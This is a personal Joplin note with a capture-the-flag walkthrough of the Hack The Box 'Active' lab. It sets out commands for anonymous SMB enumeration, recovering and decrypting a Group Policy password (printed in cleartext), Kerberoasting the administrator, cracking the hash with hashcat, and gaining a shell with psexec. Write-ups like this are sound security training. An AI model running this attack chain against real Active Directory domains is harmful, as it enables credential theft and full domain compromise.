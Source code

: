 Active (AD)

## Nmap results

![93bb559312f61772ef42ab9f65ff0b2b.png](:/6be537027412478c9eaee1d50c8277a0)

Noted DNS is open - 7601 - win 7 \[nmap will identify\]

9000 range = windows 2012 or win 10

Above 9000 = Windows server 2016

LDAP giving its host domain name as active.htb ==> Edit host file /etc/hosts

![eaac6e8ddd3d757ee16e5264e0d20725.png](:/c320536e3c9a40f8a453943cd6d636fa)

Noted the time of the kerberos - make sure the timing is within a minute of the timing

SMB is open - but no shares are listed - ought to have some anonymous shares;

## <ins>Now figure out the hostname based on the domain name</ins>

Nslookup did not work

![35004d42b778d441bcf587079fb9b77d.png](:/288c54c54b2e4dd5a1ff89498be8b376)

DNSRecon ==> run it within the subnet mask and let it run while doing other things

![feb08372ffd06e8a614a000c1a8342e0.png](:/6d54be1ffa484af7be0bd7ea5f017c34)

## Poke at SMB

Find scripts for SMB --> decided to use safe scripts on port 445

![cb19dde2c5f9f4dbe27f964fcb7dbbac.png](:/781498b3573c483986328c5503356fdd)![83e57aecfcfce7e701a6a02a4f219a7e.png](:/c429e37c834c439cb4aaa57e0037ae8d)![5f2639d74ee77d0b1eeac4c73376aaa5.png](:/f688197e36d6415f8ffceb761b8a5eb0)

Scripts mention that SMBv2 is required, nothing else

Use smbclient to do a connection (anonymous)

> smbclient -L [//10.10.10.100](//10.10.10.100)

![daad200f3ef681fdc2ae00d6484b2981.png](:/2dbcffc614164a18912f6990298dbafe)

Ran enum4linux but said that most of the time it will give errors or timeouts; not so good

used smbmap instead

> smbmap -H 10.10.10.100

![faf29913251dde04313c5518f1005af6.png](:/05f06f5f70e047ba8d4a7194cf5e8974)

We can use the enumeration of files option to get what is inside the Replication Directory

> smbmap -R Replication -H 10.10.10.100

![22e641214a6956c11cc06ddc12d4e814.png](:/0c7aaa46721e4d9d8625947a31660cf6)

Will be able to see Groups.xml ==> Group policy file (Before 2012); LAPSE now

Download the file

> smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q

![51241197abd6caa9d1fa3ea7c2fb54c5.png](:/f18b90bf69a84fa1bdaa52821e564a1b)

do the following commands to find the downloaded file

> updatedb
> 
> locate Groups.xml

![1c55fea3488be3f2be7b347eb9ca9b6f.png](:/09983072765f4349aed54c12259db51e)

Look into the file, and find the username and encrypted password

![b2cd8a384d76ec6575b2f3aa0ce4b4b5.png](:/9f891f873e0545b7929d5315c5080e3a)

Use gpp-decrypt to get the password of the hash

![3118c4a40c88e9fd6520f7a88f0ab4b8.png](:/e8e4cbc8b5a044d6a979f25697a15405)

For documentation purposes, store the credentials in creds.txt - svc_tgs:GPPstillStandingStrong2k18

Alternative approach recommended: use \*\*smbclient, recurse ON; prompt OFF; mget \* ==>**download everything

## Use Impacket GetADUsers after getting credential

Used GetADUsers to test the credentials

![6d9a4d3143d639f063a103743c7a51eb.png](:/ed9da2fdee1747db9a3557a669168c59)

use psexec to get execution

![8f58ff55fd719c51b10fbae8096a81cf.png](:/2918322db0014279959d9e3b3a016fcf)

Command fails as there is no writable shared directory

Use smbmap to authenticate into the server and get more file shares

![2d40c1a8c7504223055a8d0799dbee13.png](:/e5a167e8a21f4f4a8053e0f6f26f5574)

Enumerate the files in Users and see if there is anything useful ==> found user.txt file

![ce047b8076a2d92eda4d60977e606d3a.png](:/34a88a12d48a43dd8098e5d05ec09f81)

## Use BloodHound on Windows

Windows used as it is easier;

Open prompt and use "runas /netonly" to create a session that doesn't validate the user against the local box ==> put the user credential into the session

![5b3fdce290af74e59add0510561ffd63.png](:/f9fe430c04144d76add531d9d3b208e8)

verify against the server by attempting to read the directory using 'dir'

![ea87e6215ea95aa0e609f13817c8e47c.png](:/9afdade048ac4f71898c80c134a8b44c)

Download the (previously setup) Bloodhound's Sharphound in Ingest folder into the windows

![61d26a81f88214100fed35c7fdcfc092.png](:/ee7310c53d964e18b7fb3fcf13b1127c)

Once done, call the command

> .\\SharpHound.exe -c all -d active.htb --domaincontroller 10.10.10.100

![9884c6c6c272a35a92041456fca7e4e1.png](:/99a1ba36af3645a8a80c5c43aaa8f4d2)

What we get is a failure ==> Test the connection on port 389 (LDAP) to check if reachable; and it is true

Try the command again, but use wireshark to monitor packets ===> There were no packets sent; nothing happen

Configured the DNS Server under the control panel --> Network Adapters to point to 10.10.10.100, as the server in communication is with the network's DNS

![679b861fd45b2dcd9b408419f5c209ff.png](:/a2e3edbb667945f4bf57845d13d18fed)

This should work although it takes very slow; You will obtain a zip file

![0f9c83304d4ad40249b704b761dd54cf.png](:/8ad00a01eb4b4df0bd2ff9302922a17f)![9caff79885fe3724b01a4b86d9701570.png](:/66946d85f39b410aaad8a08a8b00376d)

Transfer the zip file back to Kali, and use bloodhound there

## Use BloodHound on Linux for analysis

> neo4j start
> 
> ./Bloodhound

Drag and drop the zipfile into bloodhound; Then start to do queries on the data regarding obtaining Kerberoastable users

![f77d7c5d6c57c76b42e400a0bb08dd06.png](:/955824c2734b4dd38fd08db00d338116)

We obtain that the administrator is kerberoastable; Proceed to use Get-SPNUsers

## Use Impacket to get the password Hash

> GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs

![c9d4ff33295011736fdfe21aeeb8e864.png](:/28ae120da66e4403bbb2a4614d180a4a)

We obtain the kerberoasable hash data of the administrator

## Use HashCat to crack the Hash

Go to hashcat example hashes, and find kbtgs$23 formatting to use

![14fad8a0b99140a7f366c0d07183c012.png](:/0e369e16317845c59699228f107c7828)

> hashcat -m 13100 hashes/active.htb /opt/wordlist/rockyou.txt

![d6e54f10d57386c30db3b8c318f282b3.png](:/dc6e1a9341f1404aa858efee6222ea31)

The password is obtained ==> test the password with psexec

> psexec.py active.htb/Administrator@10.10.10.100

![dd1665ccde16b936a6890e46ebd1a693.png](:/61ad08857f804a38acca37ad29035712)

Root is obtained

id: c945d5b6762b46c488bac2b2cfaead54
parent_id: 3305ced1fb6949afa3e15d5355c1c230
created_time: 2022-01-17T07:16:14.571Z
updated_time: 2022-03-08T15:39:06.570Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-17T07:16:14.571Z
user_updated_time: 2022-03-08T15:39:06.570Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1